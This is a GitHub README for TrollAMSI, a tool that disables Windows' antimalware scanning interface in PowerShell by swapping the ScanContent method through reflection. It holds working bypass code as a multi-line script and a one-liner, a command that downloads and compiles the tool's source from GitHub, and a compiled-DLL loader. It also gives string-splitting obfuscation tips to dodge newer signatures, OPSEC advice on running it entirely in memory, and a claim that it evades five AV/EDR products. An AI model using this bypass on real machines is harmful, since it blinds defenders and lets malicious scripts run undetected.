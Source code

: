 # TrollAMSI
![Screenshot_6](https://github.com/cybersectroll/TrollAMSI/assets/169176042/30a18a71-ed40-48ec-b5af-b95cfab56f71) \
**Note:** Every other technique in the internet patches different amsi function. We are <ins>**NOT**</ins> patching the actual function here.

Matt Graeber first introduced the technique to bypass AMSI by using reflection in 2016. The technique primarily targets field attributes. **Source:** https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Using-Matt-Graebers-Reflection-method. Here, we bring us back to 2016 by targetting methods which I call a new technique "Reflection with method swapping" (i.e essentially monkeypatching). In our specific case, we use reflection to get a handle to the "ScanContent" method and updates it to point to a method we control. Additionally, this opens doors for other techniques such as ETW and CLM possibly(?). AMSI bypasses are usually detected at 2 stages:
1. The attempt to bypass -> both static and dynamic
2. The bypass itself -> Post bypass, the signatures left behind

**The beauty of this technique as opposed to other AMSI bypass techniques such as byte patching etc for the 2 detections mentioned above is:**
1. There is a low detection surface:
    - statically: because the code profile is so short and it is hard to apply a signature on any part of the common .NET functionality used
    - dynmically: because of the lack of hooked win32 API calls 
2. Because we are modifying JIT/IL memory which is hard for AV/EDR to monitor or has not been monitored at this point by a lot of vendors

## UPDATES
```diff
! UPDATE 31/05/2024 
! For some security products, modify method M to pass in empty argument string c.
! For CSHARP example, private static int M(string c, string s) { c = ""; return 1; }
! For POWERSHELL example, class TrollAMSI{static [int] M([string]$c, [string]$s){ $c = ""; return 1}}
```
```diff
! UPDATE 11/11/2024 
!  "System.Management.Automation.AmsiUtils" is being flagged now, just do a basic obfuscation of it, like the example below and it works again 
! $o = [Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s"))
```
```diff
! UPDATE 27/05/25
! if this doesnt work, you can try https://github.com/cybersectroll/TrollDisappearKey
! if this doesnt work, you can try https://github.com/cybersectroll/TrollAMSI2
! Refer to TrollAMSIdotnet for amsi bypass for Assembly.Load()  <-- ***still works 2025/06/15***
```


## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence **WAAAAAY more opsec safe**
- No amsi.dll patching or byte patching for that matter
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```
### Raw Powershell One-Liner
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on 5 AV/EDR products
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement -> Refer to TrollCLM
  - maybe there's more?
## Credits
1. Matt Graeber original amsi bypass in 2016
2. https://github.com/calebstewart/bypass-clm


## Disclaimer
Should only be used for educational purposes!
